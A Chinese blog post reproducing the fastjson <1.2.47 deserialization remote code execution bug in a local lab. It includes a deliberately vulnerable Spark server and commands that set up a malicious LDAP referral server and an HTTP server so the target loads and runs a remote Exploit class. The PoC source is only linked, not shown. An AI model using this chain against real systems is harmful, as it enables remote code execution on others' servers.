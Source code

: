 ```yaml
---
title: fastjson<1.2.47 RCE 漏洞复现
date: 2019-07-15 16:16:12
tags:
- Hacker
categories:
- Hacker
---
```



这两天爆出了 fastjson 的老洞，复现简单记录一下。

<!--more-->

首先使用 spark 搭建一个简易的利用 fastjson 解析 json 的 http server。

```java
package cn.hacktech.fastjsonserver;

import com.alibaba.fastjson.JSON;
import static spark.Spark.*;

public class Main {
    public static void main(String[] args) {
        get("/hello", (req, res) -> "spark server start success");
        post("/test", (req, res) -> {
            String payload = req.body();
            JSON.parse(payload);
            return "json payload：" + payload;
        });
    }
}
```

编译出来后，启动这个 jar，在 `/test` 这个 post 点即可 post json payload。

然后这里分两类：

1. 如果只是想检测漏洞是否存在，可以使用 dnslog 去检测
2. 利用的话，需要自己起一个恶意的 ldap 或者 rmi 服务

目前测试出来的是 rmi 有版本限制（据说是可能是 8u113 ），打不出来；ldap 是可以的。

本机需要起一个 LDAP 服务和 http 服务

```
poc-->LDAP-->http
```

poc 会通过上面的路径去请求你的 http 服务上面的对应的 class 文件然后去解析执行这个 class

启动 LDAP 用的 marshalsec，会比较方便。

1. 在本目录下启动 http server 在 80 端口


```
python -m http.server 80
```

2. 启动 LDAP 服务

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1/#Exploit
```

后面的 Exploit 是指 Exploit.class 文件

3. 运行 PoC，它会请求 LDAP 服务，或者直接把 json payload post 到 `/test`

```
java -cp fastjson-1.2.47.jar; PoC
```

其中代码编译的话，直接执行 `javac the.java` 即可，不过 PoC.java 的编译需要引入 fastjson jar 包，运行 `javac -cp ./fastjson-1.2.47.jar PoC.java`

具体的细节可见![代码打包文件](https://www.lanzous.com/i4zzqej)